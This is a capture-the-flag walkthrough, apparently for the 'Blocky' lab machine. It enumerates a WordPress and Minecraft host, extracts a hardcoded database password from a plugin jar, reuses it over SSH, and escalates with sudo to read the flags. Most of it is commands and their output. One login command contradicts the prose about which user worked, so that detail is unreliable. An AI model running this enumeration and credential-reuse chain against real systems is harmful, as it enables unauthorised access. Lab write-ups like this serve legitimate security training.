



# Blocky
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with a port scan.
```bash
nmap -sC -sV -p- 10.129.166.115 -oN outputNMAP.txt
```

```
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp?
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I'll add "blocky.htb" to my hosts file.


Let's take a look at the web page.



This server is used to host a minecraft server and this page is related to that server. We can see in the description that plugins are being used.

Brute forcing the directories if the web server we can see word press is being used.
```bash
gobuster dir -u http://blocky.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

```
/.php                 (Status: 403) [Size: 289]
/.html                (Status: 403) [Size: 290]
/index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/wp-login.php         (Status: 200) [Size: 2397]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/license.txt          (Status: 200) [Size: 19935]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/readme.html          (Status: 200) [Size: 7413]
```

Whatweb also reveals the word press version:
```bash
whatweb http://blocky.htb         

http://blocky.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.166.115], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[BlockyCraft &#8211; Under Construction!], UncommonHeaders[link], WordPress[4.8]
```

I'll use wpscan to enumerate wordpress content.
```bash
wpscan --url http://blocky.htb -e u
```

```
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

We found the user "notch".

Looking at the plugins directory we find 2 files.

I'll download and examine them for hardcoded credentials.
Note: I'll be using jd-gui for this.



I found credentials for the sql server in the BlockyCore.jar file.

```
sqlUser = "root";
  
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
## Foothold:

We can try this on ssh and ftp. 

This did not work. But I'll try using the notch user instead of root.

This worked.

```bash
ssh root@blocky.htb
8YsqfCTnvxAUeduzjNSXe22
```

Now we can get the user flag

```bash
cat ~/user.txt
```

## We got the user flag!

## Privilege Escalation:

I'll run sudo -l to list the commands I can run as the root user.

```bash
sudo -l


<SNIP>
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

As we can see, all commands can be run as the root user. I'll start a bash shell

```bash
sudo bash -i
8YsqfCTnvxAUeduzjNSXe22
```



Now we can get the root flag.

```bash
cat ~/root.txt
```

## We got the root flag!